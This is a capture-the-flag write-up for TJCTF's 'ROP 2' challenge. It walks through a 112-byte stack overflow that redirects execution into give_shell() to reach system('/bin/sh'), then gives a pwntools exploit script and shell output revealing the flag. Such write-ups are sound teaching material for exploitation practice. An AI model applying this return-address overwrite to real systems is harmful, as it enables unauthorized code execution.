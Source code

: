 ### Solved by superkojiman

This is similar to ROP 1 in that we want to return to the give_shell() function to get our shell. Much like ROP 1, the offset to overwrite the saved return pointer in the name() function is 112 bytes. Returning directly to give_shell() won't get us a shell due to some checks that it makes. To get around it, just return to 0x08048568 in give_shell(), which sets up the call to system():


```python
#!/usr/bin/env python 
from pwn import *

# address of start of system("/bin/sh"):
#   0x8048568 <give_shell+51>:   mov    DWORD PTR [esp],0x8048710
#   0x804856f <give_shell+58>:   call   0x80483e0 <system@plt>
give_shell = p32(0x08048568) 

buf = ""
buf += "A"*112 + give_shell

r = remote("p.tjctf.org", 8093)
print r.recv()
r.send(buf + "\n");
r.interactive()
```

Run it to get a shell on the target: 

```text
koji@pwnbox32:~/Desktop/rop-2/dock$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8093: Done
Enter your name 
[*] Switching to interactive mode
$ id
uid=1000(app) gid=1000(app) groups=1000(app)
$ ls
Dockerfile
etc
flag
prog
rop2
wrapper
$ cat flag
does_this_really_count_as_programming
```

The flag is: does_this_really_count_as_programming
